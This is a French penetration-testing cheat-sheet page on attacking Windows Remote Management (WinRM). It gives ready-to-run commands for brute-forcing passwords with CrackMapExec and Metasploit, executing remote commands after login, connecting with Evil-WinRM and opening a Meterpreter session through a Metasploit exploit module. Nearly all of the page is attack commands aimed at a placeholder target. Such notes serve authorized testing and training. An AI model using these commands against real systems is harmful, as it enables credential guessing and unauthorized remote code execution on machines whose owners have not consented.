 # 🪟 Énumération WinRM

[← Retour à la table des matières](../README.md)

## Ports par défaut : 5985 (HTTP), 5986 (HTTPS)

## Bruteforce WinRM

### CrackMapExec → [📖 Guide CrackMapExec](../06-tools/crackmapexec.md)
```bash
# Bruteforce avec CrackMapExec
crackmapexec winrm targetIP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Exécution de commandes après authentification
crackmapexec winrm targetIP -u administrator -p password -x "sysinfo"
```

### Metasploit
```bash
# Scanner de login WinRM
use auxiliary/scanner/winrm/winrm_login
set RHOSTS targetIP
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

## Exécution de commandes

### Metasploit - WinRM CMD
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS targetIP
set USERNAME administrator
set PASSWORD password
set CMD whoami
run
```

### Evil-WinRM
```bash
# Connexion avec Evil-WinRM
evil-winrm.rb -u username -p 'password' -i targetIP
```

## Meterpreter via WinRM
```bash
# Metasploit exploit pour Meterpreter
use exploit/windows/winrm/winrm_script_exec
set RHOSTS targetIP
set USERNAME administrator
set PASSWORD password
set FORCE_VBS true
run
```